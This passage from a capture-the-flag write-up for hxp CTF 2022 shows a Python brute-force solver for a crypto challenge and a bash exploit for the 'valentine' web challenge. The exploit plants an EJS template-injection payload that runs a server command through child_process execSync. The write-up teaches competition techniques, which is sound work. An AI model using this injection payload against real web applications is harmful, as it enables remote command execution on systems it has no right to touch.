 ```python
    candidates_hi[1][b - 128] = 1


original = vuln.oracle(c, r)
print("original = ", original)

# check which guess is correct
for (lo, hi) in itertools.product(candidates_lo, candidates_hi):
    bits = [bit for (bit, t) in zip((lo + hi), r) if t]
    if original == vuln.mkaes([1]+bits).encrypt(b'hxp<3you').hex():
        break
else:
    raise Exception("not found")

print(vuln.mkaes([0]+bits).decrypt(bytes.fromhex(flag_enc.split(":")[1].strip())))
```
Obtains: `hxp{e4zy_p34zY_p34nuT_Bu7t3r}`

## Valentine

We also solved the web challenge `valentine`: we found that we could upload our own challenges and noticed that `query` was passed to the `ejs` renderer instead of just the `name`.
Then we realised that we could change the delimiter by passing it as a query parameter, and then inject some javascript that executed `/readflag`.
Finding the code to execute `/readflag` took the most time.

For a change, we wrote this one in `bash` because I had started out by messing with cURL:

```sh
#!/bin/bash

HOST="HOST"

attack="<?= process.mainModule.require('child_process').execSync('/readflag') ?>"

# Upload template
output="$(curl --fail-with-body -X POST -d "name=test&tmpl=${attack}" ${HOST}/template 2>/dev/null)"
if ! [ "$?" = "0" ]; then
    echo $output
    exit 1
fi

# Parse out the location of the template that is returned by the server
url=$(echo ${output} | cut -d/ -f2 | cut -d? -f1)


# Fetch with our custom query parameters
curl ${HOST}/$url"?name=test&delimiter=?"
# ensure eol
echo
```

We obtain `hxp{W1ll_u_b3_my_V4l3nt1ne?}`.

The [hxp team's writeup](https://hxp.io/blog/101/hxp-CTF-2022-valentine/) has some more details, though we did not really run into any trouble with the ejs production settings:
`curl` does not follow `Location` headers by default.


